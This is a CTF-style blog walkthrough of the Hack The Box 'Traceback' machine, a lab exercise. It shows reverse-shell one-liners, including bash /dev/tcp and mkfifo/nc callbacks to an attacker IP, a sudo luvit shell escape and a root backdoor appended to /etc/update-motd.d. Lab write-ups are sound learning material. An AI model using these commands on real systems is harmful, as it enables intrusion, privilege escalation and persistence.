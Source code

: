 ```yaml
---
layout: post
title: Traceback Machine Walkthrough
description: >
    Traceback Hackthebox Machine Detailed Walkthrough
sitemap: false
categories: [Hackthebox]
permalink: /:categories/traceback.html
---
```


***"Aim for the sky, but move slowly, enjoying every step along the way. It is all those little steps that make the journey complete."*** - Chanda Kochhar
{:.lead}
![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/machine.jpeg)

* toc
{:toc .large-only}

## Machine Matrix
![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/matrix.png)

## Machine Summary
Box is a linux machine that has a webserver running which is backdoored with a webshell. Upon getting the shell with webadmin access, privilege escalation to sysadmin can be done with misconfigured permissions of executing **luvit** i.e luvit can be executed as sysadmin without the password. On a successfull login onto the ssh, /etc/update-motd.d/ gets executed with root privilege, rewritting a file in it with reverse shell would grant us the root privilege.

## Nmap Scan
I started the enumeration with nmap scan
```bash
nmap -sC -sV 10.10.10.181
```
![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/1.png)

The box had two ports open
| Port         | Service           |
|:-------------|:------------------|
| 22           | SSH               |
| 80           | Apache            |

## Enumeration on port 80
I started to enumerate on the webserver, it said "This site has been owned I have left a backdoor for all the net. FREE INTERNETZZZ -Xh4H- "

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/2.png)

Viewing the source of the page gave me a hint about the web shells, so i went on to search about Xh4H related to webshells on google

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/3.png)

## Acquiring Initial Foothold (Webadmin)
I found the web-shells repository of Xh4H, i tried putting all the web-shells in the repository on the url (http://10.10.10.181)

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/4.png)

At last, found that smevk.php is the web-shell that has been backdoored on the machine.

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/5.png)

The webshell has username and password as "admin" that i found on viewing the source of the webshell smevk.php

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/6.png)

To grant me the full fleged shell, i decided to upload a bash script that could grant me a proper shell
```bash
bash -i >& /dev/tcp/{IP}/{PORT} 0>&1
```
![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/7.png)

## Acquiring User Shell (Sysadmin)
I have the shell as webadmin, now i need to enumerate and esaclate my privileges to a user. Upon enumeration, i found that no password is required to execute /home sysadmin/luvit using the command
```bash
sudo -l
```
![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/8.png)

Upon googling some time, i made a command that can grant me a shell as sysadmin
```bash
sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/sh")'
```
![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/9.png)

I got the user, moving on to the getting the root

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/10.png)

Now i started to enumerate on the privileges of sysadmin that can be the way for root privilege escalation. Manual enumeration didnt work it out for me, so i ran linpeas but that also didnt work out. So i decided to monitor the processes that are running using pspy. I added my ssh public key in the on sysadmin/.ssh authorized_keys and transfered the pspy64 to the machine.

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/11.png)

## Acquiring Root Shell
I found that /etc/update-motd.d/ gets modified and executed each time when a user logs in through ssh

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/12.png)

I also confirmed that /etc/update-motd.d/ has files that are writable by the user sysadmin
```bash
find /etc -writable
```
I enumerated on the directory it had 4 files
```
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
```
![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/14.png)

I decided to have a bash script on /etc/update-motd.d/00-header so i added rev-shell using the command
```bash
echo "bash -c 'bash -i >& /dev/tcp/{IP}/{PORT} 0>&1'" >> /etc/update-motd.d/00-header 
```
Now i logged on to ssh in a new tab with a listener on other tab hopping to get reverse connection but that didnt worked out. Upon researching i found that the modification that we made to the file isn't properly getting safed.
```bash
echo "rm /tmp/m;mkfifo /tmp/m;cat /tmp/m|/bin/sh -i 2>&1|nc 10.10.14.158 9090 > /tmp/m" >> /etc/update-motd.d/00-header
```
I got the reverse shell with root privileges

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/15.png)

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/16.png)

![](https://r3dw0lfsec.in/assets/img/blog/HTB/traceback/pwned.png)